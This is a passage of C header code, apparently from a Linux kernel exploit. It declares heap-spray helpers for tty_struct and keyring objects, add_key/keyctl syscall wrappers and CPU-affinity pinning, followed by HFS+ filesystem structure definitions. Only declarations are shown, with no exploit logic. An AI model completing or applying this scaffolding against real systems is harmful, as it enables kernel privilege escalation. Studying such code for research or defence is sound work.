 ```

void release_keys(key_serial_t *id_buffer, uint32_t id_buffer_size);

static inline key_serial_t add_key(const char *type, const char *description, const void *payload, size_t plen, key_serial_t ringid)
{
    return syscall(__NR_add_key, type, description, payload, plen, ringid);
}

static inline long keyctl(int operation, unsigned long arg2, unsigned long arg3, unsigned long arg4, unsigned long arg5)
{
    return syscall(__NR_keyctl, operation, arg2, arg3, arg4, arg5);
}

void set_cpu_affinity(int cpu_n, pid_t pid);

void spray_tty_struct(int num);

key_serial_t *spray_keyring(uint32_t spray_size, uint32_t offset);


struct hfsplus_attr_unistr {
    __be16 length;
    hfsplus_unichr unicode[HFSPLUS_ATTR_MAX_STRLEN];
} __packed;

/* HFS+ attributes tree key */
struct hfsplus_attr_key {
    __be16 key_len;
    __be16 pad;
    hfsplus_cnid cnid;
    __be32 start_block;
    struct hfsplus_attr_unistr key_name;
} __packed;

#define HFSPLUS_ATTR_KEYLEN sizeof(struct hfsplus_attr_key)

/* A single contiguous area of a file */
struct hfsplus_extent {
    __be32 start_block;
    __be32 block_count;
} __packed;
typedef struct hfsplus_extent hfsplus_extent_rec[8];

/* Information for a "Fork" in a file */
struct hfsplus_fork_raw {
    __be64 total_size;
    __be32 clump_size;
    __be32 total_blocks;
    hfsplus_extent_rec extents;
} __packed;

/* HFS+ Volume Header */
struct hfsplus_vh {
    __be16 signature;
    __be16 version;
    __be32 attributes;
    __be32 last_mount_vers;
    u32 reserved;

    __be32 create_date;
    __be32 modify_date;
```